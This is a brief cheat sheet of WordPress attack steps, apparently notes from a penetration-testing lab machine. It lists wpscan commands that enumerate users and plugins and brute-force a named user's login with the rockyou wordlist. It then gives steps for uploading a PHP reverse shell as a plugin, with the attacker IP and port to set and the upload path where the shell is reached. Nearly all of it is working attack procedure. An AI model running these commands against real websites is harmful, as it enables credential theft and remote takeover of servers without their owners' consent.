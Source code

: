 __Wordpress commands__

1 - Enumerating users 
=====================
wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -e u\

#2 - Bruteforce wp login page #
wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -P /usr/share/wordlists/rockyou.txt --usernames john

#3 - Enumerating wordpress users and plugins #
wpscan --disable-tls-checks --url https://192.168.1.30:12380/blogblog/ --plugin-agressive (To be checked)


__Reverse shell exploits__
#4 - Exploit Method 1#

If the admin login of wordpress is available, upload the famous php-reverse shell.php as plugin.
Download and Edit the following file content
$ip = '192.168.1.28';  // CHANGE THIS
$port = 443;           // CHANGE THIS

Upload the php file. The file will be available in the following location
https://192.168.1.30:12380/blogblog/wp-content/uploads/


